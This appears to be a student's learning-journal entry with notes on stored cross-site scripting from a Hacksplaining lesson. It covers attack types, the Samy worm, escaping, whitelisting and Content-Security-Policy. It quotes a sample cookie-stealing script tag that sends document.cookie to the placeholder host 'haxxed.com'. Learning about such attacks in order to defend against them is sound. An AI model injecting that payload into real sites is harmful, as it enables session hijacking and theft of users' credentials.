 # Entry #4: Learning Cross-site Scripting and A Realization  
For this week, I have moved on onto another topic, which is called Cross-site Scripting. While doing so, I came across something that I have realized in terms of the way I have been working on this project. Read more to know what I mean! :)  

##### Some Side Notes: 
If you would like to follow along with what you will read in my entry, click on this link: [Hacksplaining: Cross-site Scripting](https://www.hacksplaining.com/exercises/xss-stored). 

When you click on the link, you will notice that there are circles on the top-left corner. Those circles are like the steps or slides of a presentation. You can click on them to go back and forward.  

![circles](../images/cross-site-scripting/circles.png)  

## Cross-site Scripting 
What is this? Cross-site scripting is method a method that allows users to add to a site’s content, which can possibly lead to injection of malicious JavaScript.  

#### Demonstration 
**_Circle 2_**

If your website has the ability to facilitate discussions between users commenting, then those conversations/comments need to be saved to a database to show yourself and others users.  

**_Circle 3_** 

As the popularity of your site increases, attackers get more and more attracted. 

**_Circle 4_**

By being careful with HTML, it can prevent hackers from abusing the comment section through the usage of malicious JavaScript (example).   

**_Circle 5_**

Mal (the hacker) tries to mess with me (user) by using this: ```<script>alert('Your croissants are limp and sad.')</script>```. This leads to a message popping up in the user’s laptop/computer, which only user gets to see.  

**_Circle 6_**

From having a real attack, a person’s cookies could be stolen, allowing the hackers to have a period of time to hijack.  

Code used for this sections: ```<script>window.location = 'haxxed.com?cookie=' + document.cookie</script>```
* ```<script> </script>```: Script tags 
* 

**_Circle 7_**
Making a comment be liked by fake people → ```<script>upvote()</script>```     

### Signs of Danger   
The level of damage can vary depending on the sensitivity that your data has.  

#### Ways To Attack: 
* Spreading [worms](https://www.hacksplaining.com/glossary/worms) on social media sites. 
    * Worm → malicious program that can multiply itself and can leak into other systems. User can be a victim to this if mistakenly downloaded or executed some thing that was thought to be something else.   
    * [Samy](https://en.wikipedia.org/wiki/Samy_(computer_worm)) (computer worms) a.k.a JS.Spacehero, created by [Samy Kamkar](https://en.wikipedia.org/wiki/Samy_Kamkar)    
        * Fastest virus spread of all time (in MySpace) → 1,000,000+ ran the [payload](https://en.wikipedia.org/wiki/Payload_(computing))  
        * User looks at an infected profile page → payload gets copied + injected into the other user’s profile page 
        * Happened to known social media websites → Facebook, Twitter, and YouTube  
* Hijacking (stealing something while it is in action) a session 
    * Hacker uses JavaScript → have the session ID sent to a site that is under his/her control + pretend to be the user.  
* Theft 
    * Identity theft → Entering confidential info into a website that has been messed with → details can be stolen through JavaScript 
    * Stealing sensitive data (ex: passwords) 
    * Financial fraud on banking websites 
* Denial of Service Attacks ([DOS attack](https://www.hacksplaining.com/glossary/denial-of-service-attacks)) and  website vandalism 
    * Goal of attack: Flood a website service/website → making it unavailable 
    Online application have “limited bandwidth” → will be made unavailable if there is a bunch of dangerous “traffic” → involves many different fake IP addresses → “making them much harder to defeat”   
    * Solution → “properly configured firewall”  
    * Other resources: 
        * [Denial of Service Attacks](https://www.hacksplaining.com/exercises/denial-of-service-attacks) (lesson from Hacksplaining)  
        * [How to stop a DDOS attack](https://blog.fastmail.com/2015/12/08/how-to-stop-a-ddos-attack/)     

#### Protection
**_Dynamic Content_**    
* Web pages → HTML + dynamic content sewn in 
* [Stored XSS attacks](https://www.google.com/search?q=Stored+XSS+attacks&oq=Stored+XSS+attacks&aqs=chrome..69i57&sourceid=chrome&ie=UTF-8) → dynamic content is not set up well from the “backend data store” 
* Attacker → uses the advantage of “editable field” → inputting JavaScript code → executed  
* If your site is not one where you manage content → it is rare for you to have your users use raw HTML 
* “ coming from a data store” → so that the browser knows that it should be labeled as the contents of HTML, and not raw HTML 
    * “coming from a data store” → that is connected to your 
* Escape all dynamic content by replacing significant characters with HTML ones 

Significant Characters | HTML “Characters”
-----------------------|------------------------
          “            |       &#34
      Octothorp(#)     |       &#35
          &            |       &#38
          ‘            |       &#39
          (            |       &#40
          )            |       &#41
          /            |       &#47
          ;            |       &#59
          <            |       &#60
      Greater sign (>) |       &#62

* “Most modern framework will escape dynamic content by default” 
* Escaping editable content → make the browser never look at the code as executable → closes the chances of XSS attacks  

**_Whitelist Values_**  
* Condition → a certain dynamic data item can only handle a “handful” of valid values → try to limit the values in the “data store” + have your logic-checker only allow good values that are known of already 
* Their example → instead of asking for a person to type in the country that he/she lives in, ask him/ her to pick it from a drop-down list 

**_Content-Security Policy_** 
* Modern browsers support content-security policies → permits the programmer of a webpage to have say in where JavaScript and other sources be shown 
* XSS attacks → from hackers/attackers using malicious scripts on a website → by using script tags in HTML tags or “trick the browser into loading the JavaScript from a malicious third-party domain”. 
* Putting a content security policy in the “response header” → tells browse to never run “inline JavaScript” + (“lock down”/) make note of which domains can run JavaScript 
    * ```Content-Security-Policy: script-src 'self' https://apis.google.com```      
* Content security policy can be set in 

### Realization/Next Steps 
While I have been learning, I have been using only one website so far, which is [Hacksplaining](https://www.hacksplaining.com/lessons). With every lesson that I go through, I try to take note of everything, which takes a long time because it seems like every topic has a lot to it already. In order to progress faster, a method that I try to use would be the following: whenever I start a new topic, just read through it first. After doing so, I should decide how extensive my note should be on this particular topic. 



